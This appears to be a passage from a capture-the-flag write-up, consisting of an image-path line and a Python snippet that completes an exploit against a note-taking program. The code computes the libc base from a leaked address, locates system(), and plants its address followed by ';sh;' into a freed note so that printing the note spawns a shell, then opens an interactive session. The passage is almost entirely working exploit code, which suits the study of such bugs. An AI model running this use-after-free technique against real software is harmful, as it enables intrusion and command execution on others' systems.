```py
libc_base = ret - LIBC_READ_OFFSET
print("libc_base: ", hex(libc_base))
system_addr = libc_base + LIBC_SYSTEM_OFFSET
print("system: ", hex(system_addr))

# delete note
note.delete_note(2)

# system(";sh;")
note.add_note(8, p32(system_addr) + b';sh;')
note.print_note(0)

conn.interactive()
```